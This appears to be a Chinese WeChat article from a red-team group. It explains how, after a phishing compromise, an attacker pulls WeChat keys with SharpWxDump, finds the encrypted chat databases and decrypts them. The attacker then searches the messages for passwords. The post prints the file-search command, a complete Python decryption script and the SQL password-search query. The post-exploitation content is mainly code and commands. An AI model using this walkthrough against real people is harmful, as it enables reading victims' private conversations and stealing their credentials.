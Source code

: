 #  攻防演练中解密微信聊天记录寻找密码的Tips

原创 NightCrawler [ 夜组安全 ](javascript:void\(0\);)

**夜组安全** ![]()

微信号 NightCrawler_Team

功能介绍 "恐惧就是貌似真实的伪证" NightCrawler Team(简称:夜组)主攻WEB安全 | 内网渗透 | 红蓝对抗 | 代码审计 |
APT攻击，致力于将每一位藏在暗处的白帽子聚集在一起，在夜空中划出一道绚丽的光线！

____

___发表于_

收录于合集

#红蓝对抗 11 个

#攻防Tips 2 个

免责声明

由于传播、利用本公众号夜组安全所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，公众号夜组安全及作者不为此承担任何责任，一旦造成后果请自行承担！如有侵权烦请告知，我们会立即删除并致歉。谢谢！

朋友们现在只对常读和星标的公众号才展示大图推送，建议大家把 **夜组安全** “ **设为星标** ”，否则可能就看不到了啦！

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715095642.png)![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715095642.png)

 **攻防Tips**

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715095642.png)![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715095642.png)

 **01**

 **前言** ****

当我们通过钓鱼上线了目标单位人员的主机上发现这台主机上除了登录了微信之外，在桌面也没有发现任何密码本，主机也没有连接数据库。这时我们就应该从登录的微信入手，搞出一些密码和有用的东西来。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715095646.png)

 **02**

 **解密工具介绍**

##  **SharpWxDump**

  * 

    
    
     https://github.com/AdminTest0/SharpWxDump

微信客户端取证，可获取用户个人信息(昵称/账号/手机/邮箱/数据库密钥(用来解密聊天记录))  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715095647.png)

得到Wechatkey，解密时需要

 **03**

 **查找微信数据库**

# 查找微信加密数据库文件地址，我的微信一般安装在D盘

  * 

    
    
    演示查找D盘：dir /a /s /b d:\*.db | findstr "MSG0.DB"

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715095648.png)

 **04**

 **解密聊天记录**

进入文件夹，找到MSG0.db、MSG2.db、MSG3.db....文件

MSG.db，超出240MB会自动生成MSG1.db，以此类推：

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715095649.png)

使用解密脚本：

  * 

    
    
    python Decode.py -k 4988C45601A6***************8115FF6D840A -d MSG0.db

  

 **附解密脚本**

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
     from Crypto.Cipher import AESimport hashlib, hmac, ctypes, sys, getopt  
    SQLITE_FILE_HEADER = bytes('SQLite format 3', encoding='ASCII') + bytes(1)IV_SIZE = 16HMAC_SHA1_SIZE = 20KEY_SIZE = 32DEFAULT_PAGESIZE = 4096DEFAULT_ITER = 64000opts, args = getopt.getopt(sys.argv[1:], 'hk:d:')input_pass = ''input_dir = ''  
    for op, value in opts:    if op == '-k':        input_pass = value    else:        if op == '-d':            input_dir = value  
    password = bytes.fromhex(input_pass.replace(' ', ''))  
    with open(input_dir, 'rb') as (f):    blist = f.read()print(len(blist))salt = blist[:16]key = hashlib.pbkdf2_hmac('sha1', password, salt, DEFAULT_ITER, KEY_SIZE)first = blist[16:DEFAULT_PAGESIZE]mac_salt = bytes([x ^ 58 for x in salt])mac_key = hashlib.pbkdf2_hmac('sha1', key, mac_salt, 2, KEY_SIZE)hash_mac = hmac.new(mac_key, digestmod='sha1')hash_mac.update(first[:-32])hash_mac.update(bytes(ctypes.c_int(1)))  
    if hash_mac.digest() == first[-32:-12]:    print('Decryption Success')else:    print('Password Error')blist = [blist[i:i + DEFAULT_PAGESIZE] for i in range(DEFAULT_PAGESIZE, len(blist), DEFAULT_PAGESIZE)]  
    with open(input_dir, 'wb') as (f):    f.write(SQLITE_FILE_HEADER)    t = AES.new(key, AES.MODE_CBC, first[-48:-32])    f.write(t.decrypt(first[:-48]))    f.write(first[-48:])    for i in blist:        t = AES.new(key, AES.MODE_CBC, i[-48:-32])        f.write(t.decrypt(i[:-48]))        f.write(i[-48:])

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715095650.png)

此时文件夹下的MSG0.db已解密，使用navicat打开

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715095651.png)

可以对关键词进行查找：

  * 

    
    
    SELECT * FROM "MSG" WHERE StrContent  like'%密码%'

**![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715095652.png)**

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715095654.png)

  

 **05**

 **参考链接**

https://github.com/AdminTest0/SharpWxDump

https://mp.weixin.qq.com/s/4DbXOS5jDjJzM2PN0Mp2JA

 **06**

 **往期精彩**

[ ![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715095655.png)

一个终身免费的 _安全武器库_

](http://mp.weixin.qq.com/s?__biz=Mzk0ODM0NDIxNQ==&mid=2247485483&idx=1&sn=636d5c32271c9d5b6faa861508d32086&chksm=c3684cd3f41fc5c543a47a019cba9614fade2e06b34dcf237f2877b4ddefe80a0b3cb416697f&scene=21#wechat_redirect)  
[
![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715095655.png&random=0.9455969846731584)

超级友好的 _安全武器库_ 和技术交流群

](http://mp.weixin.qq.com/s?__biz=Mzk0ODM0NDIxNQ==&mid=2247485631&idx=1&sn=f53898523447469d01fda4a6cccbaa93&chksm=c3684c47f41fc551e6112994c7e8f535fdcfbb960bb250154e98629437477ba8def56d34219f&scene=21#wechat_redirect)  
[ ![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230715095657.png)

_兄弟们_ 都进来说个大事

](http://mp.weixin.qq.com/s?__biz=Mzk0ODM0NDIxNQ==&mid=2247485400&idx=1&sn=d3958ce2f6a8609c543de4d4862a34ec&chksm=c3684320f41fca362b7f1833482a3847dbf12ce51ef2c0bb1fee7fa86e9dfade09df1fa56775&scene=21#wechat_redirect)  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

